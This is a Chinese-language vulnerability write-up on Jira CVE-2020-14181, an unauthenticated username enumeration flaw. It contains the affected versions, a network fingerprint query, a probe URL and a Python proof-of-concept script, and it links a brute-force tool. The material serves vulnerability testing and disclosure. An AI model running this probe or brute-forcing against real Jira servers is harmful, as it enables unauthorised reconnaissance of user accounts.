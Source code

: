# Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

# Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

```
Atlassian Jira < 7.13.6
Atlassian Jira 8.0.0 - 8.5.7
Atlassian Jira 8.6.0 - 8.12.0
```

## 网络测绘

```
app="Jira"
```

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](/images/202202102001825.png)



使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回

![](/images/202202102001855.png)

存在的用户名会返回

![](/images/202202102001022.png)

不存在漏洞会返回

![](/images/202202102001222.png)

## 漏洞POC

POC只用于探测是否存在漏洞

爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


